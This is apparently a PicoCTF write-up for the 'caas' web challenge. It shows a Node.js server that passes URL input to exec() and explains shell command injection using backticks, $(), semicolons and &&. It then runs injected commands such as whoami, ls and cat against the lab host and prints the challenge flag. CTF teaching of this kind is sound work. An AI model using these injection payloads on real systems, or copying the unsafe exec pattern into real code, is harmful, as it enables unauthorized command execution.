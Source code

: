```yaml
---
title: "caas"
description: "Now presenting cowsay as a service\n\nhttps://caas.mars.picoctf.net/"
pubDate: 2025-03-13
category: "web"
author: "sealldev"
section: "PicoCTF"
tags: ["medium"]
image: "./images/picoctf/caas/icon.png"
---
```


We are given an `index.js` file that has the source code for the webserver:
```javascript
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

The application has a glaring vulnerability, it is using `exec()` with user input! This executes the input in a shell, we can use this to run other commands via a command injection!

Let's look at the remote web application first:
![home.png](images/picoctf/caas/home.png)

The application says to send a request to `/cowsay/{message}` which executes `cowsay` on the message (like the above source code).

There are a few ways to execute commands inside an existing command or to execute another command afterwards.
- We can use backticks to embed an existing command into a string:
```bash
$ echo "whoami"
whoami
$ echo "`whoami`"
user
```
- We can use `$()` as a command substitution like the backticks aswell:
```bash
$ echo "$(whoami)"
user
```
- We can use semicolons (`;`) to end the current command and run others:
```bash
$ /usr/games/cowsay a;whoami;
...
user
```
- We can use `&&` to append a command after the execution of the first:
```bash
$ /usr/games/cowsay a&&whoami
...
user
```

I'm going to use semicolons for my solution.

We can't just do `;whoami;` as without providing cowsay an input it will hang waiting for a string to print, so we can do `a;whoami;` to make it do `/usr/games/cowsay a;whoami;`

We can now do this on remote, let's visit `https://caas.mars.picoctf.net/cowsay/a;whoami;`.
```
 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
node
```

Perfect! The username of the current user is `node`! Let's run `ls` to look at the contents of the current directory. I use `https://caas.mars.picoctf.net/cowsay/a;ls;` and get the directory listing:
```
 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

Let's read `falg.txt`, which seems to be a typo of `flag.txt`, using `cat` we can read it! `https://caas.mars.picoctf.net/cowsay/a;cat falg.txt;`
```
 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

Flag: `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`
